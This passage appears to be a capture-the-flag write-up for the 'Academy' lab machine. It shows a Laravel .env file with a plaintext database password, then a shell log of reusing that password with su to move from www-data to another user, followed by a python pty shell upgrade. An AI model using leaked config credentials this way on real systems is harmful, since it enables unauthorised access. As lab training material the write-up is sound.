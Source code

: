 ```
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```
With above password i tried to escalate a user, and i succesfully switched to cry0l1t3 and got user.txt

```
www-data@academy:/var/www/html/academy$ ls -la /home/cry0l1t3
ls -la /home/cry0l1t3
total 44
drwxr-xr-x 6 cry0l1t3 cry0l1t3 4096 Nov  9 11:58 .
drwxr-xr-x 8 root     root     4096 Aug 10 00:34 ..
lrwxrwxrwx 1 root     root        9 Aug 10 23:41 .bash_history -> /dev/null
-rw-r--r-- 1 cry0l1t3 cry0l1t3  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 cry0l1t3 cry0l1t3 3771 Feb 25  2020 .bashrc
drwx------ 2 cry0l1t3 cry0l1t3 4096 Aug 12 21:58 .cache
drwx------ 4 cry0l1t3 cry0l1t3 4096 Nov  9 11:53 .gnupg
-rw------- 1 cry0l1t3 cry0l1t3   45 Nov  9 11:58 .lesshst
drwxrwxr-x 3 cry0l1t3 cry0l1t3 4096 Aug 12 02:30 .local
-rw-r--r-- 1 cry0l1t3 cry0l1t3  807 Feb 25  2020 .profile
drwxr-xr-x 3 cry0l1t3 cry0l1t3 4096 Nov  9 11:52 snap
-r--r----- 1 cry0l1t3 cry0l1t3   33 Nov  9 11:18 user.txt
www-data@academy:/var/www/html/academy$ su cry0l1t3
su cry0l1t3
Password: mySup3rP4s5w0rd!!

$ id
id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
cry0l1t3@academy:/var/www/html/academy$
```
## Priviledge Escalation
